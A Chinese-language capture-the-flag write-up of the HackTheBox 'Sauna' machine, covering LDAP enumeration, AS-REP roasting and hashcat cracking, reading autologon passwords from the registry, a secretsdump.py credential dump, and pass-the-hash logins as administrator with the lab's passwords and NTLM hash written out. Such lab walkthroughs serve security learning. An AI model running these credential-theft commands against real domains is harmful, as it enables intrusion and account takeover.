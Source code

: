 ```yaml
---
title: Sauna
date: 2021-12-24 13:54:20
tags: HackThebox
categories: 内网
---
```


## 靶机信息
![在这里插入图片描述](https://img-blog.csdnimg.cn/0c4f7155f0a144fca320112bb07de39c.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
## 信息收集
发现开放了445，80，88，5985这些常见的可能存在漏洞的端口。因为存在ldap服务，可能考虑到存在内网
![在这里插入图片描述](https://img-blog.csdnimg.cn/18c6ed7749514992adad88f2a6fa97f2.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

发现了smb服务，尝试是否可以登录
![在这里插入图片描述](https://img-blog.csdnimg.cn/cae8f24d7edf4d9ab4db6a15e3d5c60b.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
登录失败，那我们查看一下ldap有没有什么有价值的信息
![在这里插入图片描述](https://img-blog.csdnimg.cn/f0249267ceca4d73943001c895249779.png)

```bash
ldapsearch -x -H ldap://10.10.10.175 -b "dc=EGOTISTICAL-BANK,dc=local"
```

```bash
# extended LDIF
#
# LDAPv3
# base <dc=EGOTISTICAL-BANK,dc=local> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#
# EGOTISTICAL-BANK.LOCAL
dn: DC=EGOTISTICAL-BANK,DC=LOCAL
objectClass: top
objectClass: domain
objectClass: domainDNS
distinguishedName: DC=EGOTISTICAL-BANK,DC=LOCAL
instanceType: 5
whenCreated: 20200123054425.0Z
whenChanged: 20211018114224.0Z
subRefs: DC=ForestDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL
subRefs: DC=DomainDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL
subRefs: CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
uSNCreated: 4099
dSASignature:: AQAAACgAAAAAAAAAAAAAAAAAAAAAAAAAQL7gs8Yl7ESyuZ/4XESy7A==
uSNChanged: 98336
name: EGOTISTICAL-BANK
objectGUID:: 7AZOUMEioUOTwM9IB/gzYw==
replUpToDateVector:: AgAAAAAAAAAGAAAAAAAAAEbG/1RIhXVKvwnC1AVq4o8WgAEAAAAAAJ/uf
 RcDAAAAq4zveNFJhUSywu2cZf6vrQzgAAAAAAAAKDj+FgMAAADc0VSB8WEuQrRECkAJ5oR1FXABAA
 AAAADUbg8XAwAAAP1ahZJG3l5BqlZuakAj9gwL0AAAAAAAANDwChUDAAAAm/DFn2wdfEWLFfovGj4
 TThRgAQAAAAAAENUAFwMAAABAvuCzxiXsRLK5n/hcRLLsCbAAAAAAAADUBFIUAwAAAA==
creationTime: 132790309446175365
forceLogoff: -9223372036854775808
lockoutDuration: -18000000000
lockOutObservationWindow: -18000000000
lockoutThreshold: 0
maxPwdAge: -36288000000000
minPwdAge: -864000000000
minPwdLength: 7
modifiedCountAtLastProm: 0
nextRid: 1000
pwdProperties: 1
pwdHistoryLength: 24
objectSid:: AQQAAAAAAAUVAAAA+o7VsIowlbg+rLZG
serverState: 1
uASCompat: 1
modifiedCount: 1
auditingPolicy:: AAE=
nTMixedDomain: 0
rIDManagerReference: CN=RID Manager$,CN=System,DC=EGOTISTICAL-BANK,DC=LOCAL
fSMORoleOwner: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-Name
 ,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
systemFlags: -1946157056
wellKnownObjects: B:32:6227F0AF1FC2410D8E3BB10615BB5B0F:CN=NTDS Quotas,DC=EGOT
 ISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:F4BE92A4C777485E878E9421D53087DB:CN=Microsoft,CN=Progra
 m Data,DC=EGOTISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:09460C08AE1E4A4EA0F64AEE7DAA1E5A:CN=Program Data,DC=EGO
 TISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:22B70C67D56E4EFB91E9300FCA3DC1AA:CN=ForeignSecurityPrin
 cipals,DC=EGOTISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:18E2EA80684F11D2B9AA00C04F79F805:CN=Deleted Objects,DC=
 EGOTISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:2FBAC1870ADE11D297C400C04FD8D5CD:CN=Infrastructure,DC=E
 GOTISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:AB8153B7768811D1ADED00C04FD8D5CD:CN=LostAndFound,DC=EGO
 TISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:AB1D30F3768811D1ADED00C04FD8D5CD:CN=System,DC=EGOTISTIC
 AL-BANK,DC=LOCAL
wellKnownObjects: B:32:A361B2FFFFD211D1AA4B00C04FD7D83A:OU=Domain Controllers,
 DC=EGOTISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:AA312825768811D1ADED00C04FD8D5CD:CN=Computers,DC=EGOTIS
 TICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:A9D1CA15768811D1ADED00C04FD8D5CD:CN=Users,DC=EGOTISTICA
 L-BANK,DC=LOCAL
objectCategory: CN=Domain-DNS,CN=Schema,CN=Configuration,DC=EGOTISTICAL-BANK,D
 C=LOCAL
isCriticalSystemObject: TRUE
gPLink: [LDAP://CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=Syste
 m,DC=EGOTISTICAL-BANK,DC=LOCAL;0]
dSCorePropagationData: 16010101000000.0Z
otherWellKnownObjects: B:32:683A24E2E8164BD3AF86AC3C2CF3F981:CN=Keys,DC=EGOTIS
 TICAL-BANK,DC=LOCAL
otherWellKnownObjects: B:32:1EB93889E40C45DF9F0C64D23BBB6237:CN=Managed Servic
 e Accounts,DC=EGOTISTICAL-BANK,DC=LOCAL
masteredBy: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-Name,CN
 =Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
ms-DS-MachineAccountQuota: 10
msDS-Behavior-Version: 7
msDS-PerUserTrustQuota: 1
msDS-AllUsersTrustQuota: 1000
msDS-PerUserTrustTombstonesQuota: 10
msDs-masteredBy: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-Na
 me,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
msDS-IsDomainFor: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-N
 ame,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
msDS-NcType: 0
msDS-ExpirePasswordsOnSmartCardOnlyAccounts: TRUE
dc: EGOTISTICAL-BANK
# Users, EGOTISTICAL-BANK.LOCAL
dn: CN=Users,DC=EGOTISTICAL-BANK,DC=LOCAL
# Computers, EGOTISTICAL-BANK.LOCAL
dn: CN=Computers,DC=EGOTISTICAL-BANK,DC=LOCAL
# Domain Controllers, EGOTISTICAL-BANK.LOCAL
dn: OU=Domain Controllers,DC=EGOTISTICAL-BANK,DC=LOCAL
# System, EGOTISTICAL-BANK.LOCAL
dn: CN=System,DC=EGOTISTICAL-BANK,DC=LOCAL
# LostAndFound, EGOTISTICAL-BANK.LOCAL
dn: CN=LostAndFound,DC=EGOTISTICAL-BANK,DC=LOCAL
# Infrastructure, EGOTISTICAL-BANK.LOCAL
dn: CN=Infrastructure,DC=EGOTISTICAL-BANK,DC=LOCAL
# ForeignSecurityPrincipals, EGOTISTICAL-BANK.LOCAL
dn: CN=ForeignSecurityPrincipals,DC=EGOTISTICAL-BANK,DC=LOCAL
# Program Data, EGOTISTICAL-BANK.LOCAL
dn: CN=Program Data,DC=EGOTISTICAL-BANK,DC=LOCAL
# NTDS Quotas, EGOTISTICAL-BANK.LOCAL
dn: CN=NTDS Quotas,DC=EGOTISTICAL-BANK,DC=LOCAL
# Managed Service Accounts, EGOTISTICAL-BANK.LOCAL
dn: CN=Managed Service Accounts,DC=EGOTISTICAL-BANK,DC=LOCAL
# Keys, EGOTISTICAL-BANK.LOCAL
dn: CN=Keys,DC=EGOTISTICAL-BANK,DC=LOCAL
# TPM Devices, EGOTISTICAL-BANK.LOCAL
dn: CN=TPM Devices,DC=EGOTISTICAL-BANK,DC=LOCAL
# Builtin, EGOTISTICAL-BANK.LOCAL
dn: CN=Builtin,DC=EGOTISTICAL-BANK,DC=LOCAL
# Hugo Smith, EGOTISTICAL-BANK.LOCAL
dn: CN=Hugo Smith,DC=EGOTISTICAL-BANK,DC=LOCAL
# search reference
ref: ldap://ForestDnsZones.EGOTISTICAL-BANK.LOCAL/DC=ForestDnsZones,DC=EGOTIST
 ICAL-BANK,DC=LOCAL
# search reference
ref: ldap://DomainDnsZones.EGOTISTICAL-BANK.LOCAL/DC=DomainDnsZones,DC=EGOTIST
 ICAL-BANK,DC=LOCAL
# search reference
ref: ldap://EGOTISTICAL-BANK.LOCAL/CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOC
 AL
# search result
search: 2
result: 0 Success
# numResponses: 19
# numEntries: 15
# numReferences: 3
```
<!--more-->

我们发现了一个可疑的用户。虽然是找到了用户名，但是我们不没有找到相对应的凭据。这时候我们切换一下思路，浏览一下web服务中有什么有价值的信息可以提供给我们的。
![在这里插入图片描述](https://img-blog.csdnimg.cn/b628002a16b3488681fd917e8308c38f.png)
在关于页面，我们看到了这两个用户的信息，长得貌似和我们信息收集出来的用户信息有点类似。那我们可以猜测这有可能是系统中真实存在的用户。
![在这里插入图片描述](https://img-blog.csdnimg.cn/c588d6ef57d149fabf5e731d9cc5036d.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们尝试获取一下用户对应的哈希值，使用的工具是kerbrute，发现存在`hsmith`和`fsmith`这两个用户并且发现了它们的TGT条目。![在这里插入图片描述](https://img-blog.csdnimg.cn/2627486af25c47ab96b900a0ec75f39b.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们先使用impacket包中的`GetNPUsers.py`获取fsmith用户的hash值。
![在这里插入图片描述](https://img-blog.csdnimg.cn/c0949aa761a34cd5ac4cb072c102afb1.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们将他的hash值保存为一个文件，使用hashcat尝试能不能破解成功。破解成功的密码明文值为`Thestrokes23`。这里解释一下参数的含义，-m指的是指定文件的散列值类型，-a指的是指定破解模式，-w是指定字典。

```bash
hashcat -m 18200 -a 0 -w 3 fsmith.hash /usr/share/wordlists/rockyou.txt
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/41e6765292b042028af2e5a18a7e63c0.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/e09120c6a3ab4d2ebc84502a9a0a58b4.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/353674983008426c8e5578b2c332cf9c.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
既然破解到了密码，那我们可以登录SMB和WinRM服务了。我们先查看SMB服务，发现了两个共享服务，但是没有一个是有用的。。。
![在这里插入图片描述](https://img-blog.csdnimg.cn/03e072a109fb4bbea8beb8f0a955ab09.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那我们尝试利用WinRM吧，登录成功，拿到第一个flag值。
![在这里插入图片描述](https://img-blog.csdnimg.cn/6b0e08188c09403f95a20de67f6292de.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
## 提权
我们拿到的只是普通用户的权限，我们的目标当然是管理员权限。首先我们先看看都存在哪些用户，发现存在一个svc_loanmgr用户。
![在这里插入图片描述](https://img-blog.csdnimg.cn/db445cc21449494680e87b2d7ae329f8.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们使用powershell命令查看到它对应的密码。

```powershell
Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon' | select "Default*"
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/d774cd7d287541eb8c6c68b368fe0424.png)
这个命令要记住它还是有一定难度的，我们也可以通过上传`WindowsEnum.ps1`脚本来完成这任务。
![在这里插入图片描述](https://img-blog.csdnimg.cn/86d1160f61414340a78ab8afd834f34a.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/8c4904ed1ffe46219f42192926e2b54c.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
发现这个密码后，我们可以尝试使用登陆进去。但是我试了很多次都是登陆失败
![在这里插入图片描述](https://img-blog.csdnimg.cn/431a23d1a026444781060ce56c83ade6.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那没办法了，我尝试使用`secretsdump.py`脚本看看能不能成功获取到这个用户的哈希值。我们意外发现administrator的hash值，发大财了

```bash
secretsdump.py -dc-ip 10.10.10.175 svc_loanmgr:Moneymakestheworldgoround\!@10.10.10.175
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/24f4c7e28cee4d33bef37d56e48ad59a.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们使用`evil-winrm`进行登录，同时我们还可以使用`wmiexec.py`这个脚本进行登录，但是后者的速度要相较前者慢得多

```bash
evil-winrm -u administrator -H 823452073d75b9d1cf70ebdf86c7f98e -i 10.10.10.175
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/42316c86c9ba4720b9fd0f6684ecec19.png)

```bash
wmiexec.py -hashes :823452073d75b9d1cf70ebdf86c7f98e administrator@10.10.10.175
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/b57c846f068946208ef0673c1765edf0.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
